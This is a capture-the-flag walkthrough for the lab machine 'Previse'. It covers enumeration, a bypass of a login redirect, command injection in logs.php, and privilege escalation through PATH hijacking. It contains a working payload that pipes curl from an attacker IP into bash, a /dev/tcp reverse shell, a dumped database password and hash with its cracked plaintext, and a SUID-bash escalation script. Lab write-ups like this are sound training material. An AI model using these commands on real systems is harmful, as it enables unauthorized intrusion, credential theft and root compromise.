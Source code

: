 
Machine: Previse

## Enumeration

#### Nmap

	PORT     STATE    SERVICE         VERSION
	22/tcp   open     ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
	|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
	|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
	80/tcp   open     http            Apache httpd 2.4.29 ((Ubuntu))
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	|_http-favicon: Unknown favicon MD5: B21DD667DF8D81CAE6DD1374DD548004
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	| http-title: Previse Login
	|_Requested resource was login.php
	1087/tcp filtered cplscrambler-in
	1600/tcp filtered issd
	3052/tcp filtered powerchute
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

#### Dirsearch

	[12:52:28] 302 -    4KB - /accounts.php  ->  login.php                                               
	[12:53:43] 200 -    0B  - /config.php                                                                             
	[12:53:53] 301 -  310B  - /css  ->  http://10.10.11.104/css/                      
	[12:54:00] 302 -    0B  - /download.php  ->  login.php     
	[12:54:10] 200 -   15KB - /favicon.ico                                           
	[12:54:12] 302 -    5KB - /files.php  ->  login.php                                                   
	[12:54:19] 200 -  980B  - /header.php                            
	[12:54:26] 302 -    3KB - /index.php  ->  login.php                                                            
	[12:54:26] 302 -    3KB - /index.php/login/  ->  login.php
	[12:54:32] 200 -    1KB - /js/                                                                          
	[12:54:39] 200 -    2KB - /login.php                                                                  
	[12:54:42] 302 -    0B  - /logout.php  ->  login.php
	[12:55:26] 403 -  277B  - /server-status                                                                
	[12:55:26] 403 -  277B  - /server-status/
	[12:55:36] 302 -    3KB - /status.php  ->  login.php


we got following files all are redirect to login page so,

Make a request /accounts.php **do intercept the request** change the response 302 Found to 200 OK.

Then its redirect to account create page create any account admin:admin anthing....

Login!!

Go to files we have siteBackup.zip download it exract it.

After exract we got all php files interestings files is config.php its gives you mysql creds 

```php config.php
 <?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```
And logs.php is vuln to RCE!

```php logs.php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```

## Exploit

After login..

Make a request /logs.php send to repeater change the request body method to POST

Add **delim** parameter its vulnerable to RCE and send the payload in delim parameter

1. Create a rev.sh file

```bash
bash -c 'bash -i >& /dev/tcp/10.10.xx.xx/9001 0>&1'
```

2. Start python server

		sudo python -m http.server 80

3. Start reverse listerner

		nc -nlvp 9001

4. Send payload

_Payload_
		
		comma%26curl+http://10.10.xx.xx/rev.sh|bash

```bash
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=nu0rc0fgrpc1dg4i0lvi0i9opb
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

delim=comma%26curl+http://10.10.16.21/rev.sh|bash
```

Now check reverse listerner we got reverse shell! www-data

As always first in terminal run python spawn shell

	$ python -c 'import pty;pty.spawn("/bin/bash")'

and then now already we have mysql creds then login in........

	$mysql -u root -p 

mysql> use previse;
mysql> show tables;
mysql> select * from accounts;
`+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | admin    | $1$🧂llol$uXqzPW6SXUONt.AIOBqLy. | 2021-08-10 05:39:08 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.01 sec)
`

we got hash now crack it using hashcat

	hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt 

**m4lwhere:ilovecody112235!**

## PrivEsc

Privesc is path injection using gzip

	cd /tmp
	cat << EOF > gzip
	>#!/bin/bash             
	> cp /bin/bash /tmp/c            
	> chmod u+s /tmp/c
	> EOF
	chmod +x gzip
	export PATH=/tmp:$PATH

	sudo /opt/scripts/access_backup.sh
	/tmp./c -p

**Rooted**